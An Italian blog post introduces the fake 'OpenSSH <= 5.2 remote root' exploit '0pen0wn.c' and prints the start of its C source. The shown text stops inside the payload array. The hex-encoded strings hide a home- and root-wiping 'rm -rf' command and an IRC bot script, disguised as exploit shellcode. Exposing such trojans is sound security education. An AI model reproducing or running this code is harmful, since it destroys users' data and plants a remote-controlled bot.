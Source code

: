```yaml
---
layout: post
title: L'exploit che ti exploita
---
```

Nel bene o nel male chi comincia a programmare finirà sempre a dare una occhiata alla parte "underground" della stessa: chi perché affascinato, chi perché bisognoso, chi perché voglioso di crear danni, chi per ribellione e chi per gioco.   
Parlo della parte "oscura" della programmazione, quella parte orientata allo scoprire bug, quella parte orientata allo sfruttamento di tali bug, la parte "dedicata" alla sicurezza.   
Tutti almeno una volta siamo stati affascinati dai bug hunter, dagli exploit e dalle falle ma cosa accadrebbe se il tutto ci si rivoltasse contro?

In questo articolo non vi dirò cosa è un [exploit](http://it.wikipedia.org/wiki/Exploit), cosa è uno [shellcode](http://it.wikipedia.org/wiki/Shellcode), perché e come si fanno, come utilizzarli e chi li produce, per queste cose c'è google.

L'exploit che oggi andremo ad analizzare è un fantomatico _0Day_ che girava qualche tempo fa su internet che "permetteva di exploitare qualsiasi macchina montasse OpenSSH <= 5.2 in modo remoto", fantastico no ?   
Una vera acquolina per gli script kiddies, per i lamer e un vero grattacapo per i millemila sysadmin sparsi per il pianeta ma la situazione venne ribaltata completamente, vediamo come:

{% highlight c linenos %}
/* 0pen0wn.c by anti-sec group
 * ---------------------------
 * OpenSSH <= 5.2 REMOTE (r00t) EXPLOIT.
 *
 *
 * Takes advantage of an off-by-one
 * bug in mapped authentication space on system
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdarg.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <netdb.h>

#define VALID_RANGE 0xb44ffe00
#define build_frem(x,y,a,b,c) a##c##a##x##y##b

char jmpcode[] =
    "\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f"
    "\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26";

char shellcode[] =
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x0a\x24\x6b\x65"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"